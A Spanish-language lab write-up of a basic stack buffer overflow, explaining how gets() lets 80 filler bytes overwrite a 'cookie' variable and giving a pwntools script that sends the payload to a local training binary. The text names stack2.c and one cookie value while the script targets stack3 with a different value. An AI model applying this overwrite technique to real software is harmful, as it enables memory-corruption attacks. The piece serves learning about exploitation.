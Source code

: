 # Buffer-Overflow Básico

[stack2.c](/assets/images/Buffer-Overflow-basico/stack2.c)

Analizamos el código en c:

![Untitled](/assets/images/Buffer-Overflow-basico/Untitled.png)

Podemos ver que tiene declarado un buffer de 80 caracteres, luego printea por pantalla el valor de buf y de cookie, para luego usar la función gets (la cual se considera insegura y no debería de usarse) para llamar a buf.

Un atacante podría aprovecharse de esta función “gets” para ocasionar un desbordamiento del buffer de la siguiente manera.

Leyendo el código sabemos que si introducimos un total de 80 caracteres ya estamos sobrepasando el el valor que puede almacenar “buf”, por lo que los siguientes caracteres estarán sobre escribiendo el flujo del programa, en el código se realiza una comparacion del valor de “cookie”, si cookie es igual a 0x01020305 va a printear por pantalla “you win”. 

Ese es el objetivo del ejercicio, se podría realizar de la siguiente forma:

![Untitled](/assets/images/Buffer-Overflow-basico/Untitled%201.png)

Con python printeamos “A” 80 veces (tamaño del buffer declarado) y luego le sumamos en little-endian el valor que tiene que valer cookie para que se cumpla el condicional (\x05\x03\x02\x01), de esta forma realizamos un desbordamiento del buffer y conseguimos que el flujo del programa vaya por donde queramos.

Para este ejercicio he creado un exploit que realiza el buffer overflow automáticamente.

```python
#!/usr/bin/python3

from subprocess import *
from pwn import *
from struct import pack

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	try:
		buf = 80
		buffer = b"A"*buf
		cookie = pack("<I", 0x01020005)
		print(cookie)
		payload = buffer+cookie
		print(payload)
		p = process('./stack3')
#		context.log_level = 'DEBUG'
		p.sendline(payload)
		print(p.recvline())
		print(p.recvline())
	except Exception as e:
		print(e)
```

![Untitled](/assets/images/Buffer-Overflow-basico/Untitled%202.png)